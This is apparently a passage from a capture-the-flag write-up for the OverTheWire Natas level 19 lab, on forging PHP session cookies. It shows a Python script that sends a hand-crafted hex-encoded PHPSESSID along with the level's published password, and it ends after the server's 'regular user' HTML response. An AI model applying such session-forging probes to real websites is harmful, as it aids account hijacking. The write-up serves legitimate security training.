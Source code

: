 Please login with your admin account to retrieve credentials for natas20.

The website then requests a username and a password.

### Solution

We explore the request sending obviously wrong credentials:

```python
import requests
from requests.auth import HTTPBasicAuth

basic_auth = HTTPBasicAuth('natas19', 'tnwER7PdfWkxsG4FNWUtoAZ9VyZTJqJr')


url = "http://natas19.natas.labs.overthewire.org/index.php"


def check_session_id(session_id: str) -> str:
    cookie = "PHPSESSID=" + session_id
    headers = {'Content-Type': 'text/html; charset=UTF-8',
               'Cookie': cookie}
    body = {"username": "asd", "password": "asd"}
    response = requests.post(url, headers=headers,
                             auth=basic_auth, json=body, verify=False)
    return response.text


if __name__ == '__main__':
    text = check_session_id("3338302d617364")
    print(text)
```

Which gives us:

```bash
$ python natas19.py
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas19", "pass": "tnwER7PdfWkxsG4FNWUtoAZ9VyZTJqJr" };</script></head>
<body>
<h1>natas19</h1>
<div id="content">
<p>
<b>
This page uses mostly the same code as the previous level, but session IDs are no longer sequential...
</b>
</p>
You are logged in as a regular user. Login as an admin to retrieve credentials for natas20.</div>
</body>
</html>
```
